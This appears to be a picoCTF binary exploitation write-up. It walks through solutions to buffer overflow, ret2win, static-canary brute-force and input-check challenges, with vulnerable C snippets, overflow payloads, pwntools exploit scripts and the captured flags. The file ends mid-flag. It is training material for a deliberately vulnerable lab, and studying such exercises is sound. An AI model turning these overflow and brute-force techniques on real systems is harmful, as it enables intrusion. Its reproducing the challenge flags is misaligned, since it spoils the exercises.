










# Binary Exploitation

## basic-file-exploit



Vulnerable part of the code in function `data_read()`:
```c
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

To enter this if-statement to get the flag, `entry`, which is our input, needs to start with "0". 

Before entering this statement, we need to set `inputs`, which is done in `data_write()` function.

As such, the flow is:
1. Run data_write() with proper input values.
2. Run data_read() with `entry` as 0.

```sh
>> nc saturn.picoctf.net 53641
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
>> 1
1
Please enter your data:
>> 1
1
Please enter the length of your data:
>> 1
1
Your entry number is: 1
Write successful, would you like to do anything else?
>> 2
2
Please enter the entry number of your data:
>> 0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_C5BC1889}
```

##  buffer overflow 0


When there is a illegal access or modification to memory, the `sigsegv_handler` function will be called. 

```c
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

This function will print the flag.

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

As such, triggering a buffer overflow will allow us to get the flag.

Vulnerable part of the code: 
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
...
int main(int argc, char **argv){
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  ...
}
```

The buffer `buf2` for `strcpy` is 16 characters while our input buffer, which is `buf1`, is 100 characters. As such, this will cause a buffer overflow.

```sh
>> nc saturn.picoctf.net 65355
Input: AAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```

## CVE-XXXX-XXXX



```
picoCTF{CVE-2021-34527}
```

## buffer overflow 1



In the `vuln()` function, it gets a buffer `buf` and executes `get_return_address()`, which will be printed.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

Testing it on the server, I figure out that with offset 44, we can overwrite the jump to address.

```sh
>> python2 -c "print 'A'*44+'B'*4" | nc saturn.picoctf.net 58109
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
```

From Ghidra, the `win()` function is at address 0x080491f6 .



Sending in little endian format, we obtained the flag.

```sh
>> python2 -c "print 'A'*44+'\xf6\x91\x04\x08'" | nc saturn.picoctf.net 54756
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_2e53b270} 
```

## RPS



The vulnerable code is in the `play()` function:
```c
if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
  } else {
    puts("Seems like you didn't win this time. Play again?");
    return false;
  }
```

`strstr` returns true if `loses[computer_turn]` is in `player_turn`. Since we can control `player_turn`, passing `rockpaperscissors` into `player_turn` will ensure that we win everytime.


```
Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: scissors
You win! Play again?
Congrats, here's the flag!
picoCTF{50M3_3X7R3M3_1UCK_B69E01B8}
Type '1' to play a game
Type '2' to exit the program
```

## x-sixty-what


Using `edb`, I noticed that using 72 bytes offset will cause an overflow to the RIP.



The RIP will point to the address after the 72 bytes offset.



I can further verify using `dmesg`.

```
>> python2 -c "print 'A'*72+'B'*4" | ./vuln                     
Welcome to 64-bit. Give me a string that gets you the flag: 
zsh: done                python2 -c "print 'A'*72+'B'*4" | 
zsh: segmentation fault  ./vuln

>> sudo dmesg
[89997.663953] vuln[424433]: segfault at 42424242 ip 0000000042424242 sp 00007ffc25f9c8e0 error 14                                                              
[89997.663961] Code: Unable to access opcode bytes at RIP 0x42424218.
```

We need to jump to 0x00401236, which is the `flag()` function address.



Running it locally works.

```
>> python2 -c "print 'A'*72+'\x36\x12\x40\x00\x00\x00\x00\x00'" | ./vuln 
Welcome to 64-bit. Give me a string that gets you the flag: 
Please create 'flag.txt' in this directory with your own debugging flag.
```

However, not on the remote server.

```
>> python2 -c "print 'A'*72+'\x36\x12\x40\x00\x00\x00\x00\x00'" | nc saturn.picoctf.net 53058  
Welcome to 64-bit. Give me a string that gets you the flag: 

```

This is due to the stack misalignment on different machines. Instruction 0x0040123a `PUSH RBP` will cause the stack to misalign on an 64-bit machine. As such, we skip that instruction and use 0x0040123b instead to ensure proper alignment.


```
>> python2 -c "print 'A'*72+'\x3b\x12\x40\x00\x00\x00\x00\x00'" | nc saturn.picoctf.net 53058  
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{b1663r_15_b3773r_be31178c}  
```

## buffer overflow 2



Finding the offset to control RIP with dmesg:

```
>> python2 -c "print('A'*112+'B'*4)" | ./vuln                            139 ⨯
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
zsh: done                python2 -c "print('A'*112+'B'*4)" | 
zsh: segmentation fault  ./vuln

>> sudo dmesg
[93156.751562] vuln[439637]: segfault at 42424242 ip 0000000042424242 sp 00000000ffad47f0 error 14 in libc-2.33.so[f7d7f000+1d000]                              
[93156.751573] Code: Unable to access opcode bytes at RIP 0x42424218.
```

In the source code, after arriving at the `win()` function, we need to match two arguments in order to get the flag.

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```

As such, our stack layout should look something like this before executing the `win()` function:
```
Before win() executes
|   arg_2           |
|   arg_1           |
|   flag_address    |
|   AAAAA..         |
```

However, the flag address will be popped to execute `win()` function. This causes the arguments to be improperly offset because there is supposed to be a return address after `win()` completes. In this case, `arg_1` will become the return address, `arg_2` will become `arg_1` and there will be a missing `arg_2`.
```
After win() executes
|   arg_2           |
|   arg_1           |
                        <-- Missing return address 
|   AAAAA..         |
```

As such, our payload should look like this. The ret_address can be a pseudo one since we can don't bother to exit safely:
```
Stack before VS after win() executes

|   arg_2           |   arg_2
|   arg_1           |   arg_1
|   ret_address     |   ret_address
|   flag_address    |   AAAAA..
|   AAAAA..         |
```

Python exploit using pwntools:

```py
from pwn import *

context.update(arch='i386', os='linux')

elf = ELF('./vuln')
#p = elf.process()
p = remote('saturn.picoctf.net' ,64120)

offset = 112 #Leaked from dmesg 

flag_address = b'\x96\x92\x04\x08' 
ret_address = b'\x00\x00\x00\x00' 
arg_1 = b'\x0d\xf0\xfe\xca' 
arg_2 = b'\x0d\xf0\x0d\xf0'

payload = [
    b'A'*offset,
    flag_address,
    ret_address,
    arg_1,
    arg_2
]

payload = b''.join(payload)
print(payload)

p.sendline(payload)
p.interactive()
```

Getting the flag:
```sh
>> python3 vuln.py
[*] '/home/seewhy/Desktop/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to saturn.picoctf.net on port 65298: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08\x00\x00\x00\x00\r\xf0\xfe\xca\r\xf0\r\xf0'
[*] Switching to interactive mode
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04
picoCTF{argum3nt5_4_d4yZ_4b24a3aa}[*] Got EOF while reading in interactive
$  
```

## buffer overflow 3



From the source code, it shows that the canary is static. This means that we can bruteforce it.
```c
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
```

First, we need to find the offset to reach the canary. Allocate a large enough buffer for the payload. I realise that after an offset of 64 bytes, we reached the canary.

```
>> nc saturn.picoctf.net 63900
How Many Bytes will You Write Into the Buffer?
> 100
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
***** Stack Smashing Detected ***** : Canary Value Corrupt!
```

We can bruteforce from 0x00 to 0xff for the canary value. Since `CANARY_SIZE` is 4 bytes, we only need to bruteforce for 4 bytes.

An example of guessing the correct canary value:
```
nc saturn.picoctf.net 63900
How Many Bytes will You Write Into the Buffer?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
Input> Ok... Now Where's the Flag?
```

Using python, we can run a script to bruteforce:
```py
from pwn import *
import struct

context.update(arch='i386', os='linux')

canary_size = 0
offset = 64
length = offset + 1
canary_value = b''

while True:
    if(canary_size == 4):
        print(f'Final canary_value is: {canary_value} ')
        break

    for i in range(0,256):
        elf = ELF('./vuln4')
        #p = elf.process()
        p = remote('saturn.picoctf.net', 63900)

        brute_value = struct.pack("<B", i)

        test_value = canary_value + brute_value

        payload = [
            b'A'*offset,
            test_value
        ]

        payload = b''.join(payload)
        print(payload)

        p.sendline(bytes(str(length), encoding='utf8'))
        p.recvline()
        p.sendline(payload)
        output = p.recvline()
        p.close()
        if(b'Stack Smashing Detected' not in output):
            print(f'Canary value found: {brute_value}')
            canary_value += brute_value
            length+= 1
            canary_size+= 1
            break
```

```
>> python3 bruteforce_canary.py
...
[+] Opening connection to saturn.picoctf.net on port 63900: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABiRd'
[*] Closed connection to saturn.picoctf.net port 63900
Canary value found: b'd'
Final canary_value is: b'BiRd' 
```

Similar to the previous challenge, we can look for the `win()` address using Ghidra.

Now, we need to find the offset after the canary to reach the return address. We can use `dmesg` on the binary to figure that out.

Using `64*A + canary_value + 16*B + 4*C`:

```
>> sudo dmesg
[108799.722082] vuln4[521393]: segfault at 43434343 ip 0000000043434343 sp 00000000ffbfefa0 error 14 in libc-2.33.so[f7d6c000+1d000]                            
[108799.722093] Code: Unable to access opcode bytes at RIP 0x43434319.
```

Substituting C with the flag address. We can get the flag.

Python exploit:

```py
from pwn import *
import struct

context.update(arch='i386', os='linux')
    
#elf = ELF('./vuln4')
#p = elf.process()
p = remote('saturn.picoctf.net', 63900)

offset = 64
canary_length = 4
offset_B = 16
flag_address_length = 4

length = offset + canary_length + offset_B + flag_address_length

flag_address = b'\x36\x93\x04\x08'

canary_value = b'BiRd'

payload = [
    b'A'*offset,
    canary_value,
    b'B'*offset_B,
    flag_address
]
    
payload = b''.join(payload)
print(payload)

p.sendline(bytes(str(length), encoding='utf8'))
p.sendline(payload)
p.interactive()
```
```sh
>> python3 vuln.py
[+] Opening connection to saturn.picoctf.net on port 63900: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABiRdBBBBBBBBBBBBBBBB6\x93\x04\x08'
[*] Switching to interactive mode
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
picoCTF{Stat1C_c4n4r13s_4R3_b4D_10a64ab3}
[*] Got EOF while reading in interactive
```


picoCTF{L34k1ng_Fl4g_0ff_St4ck_6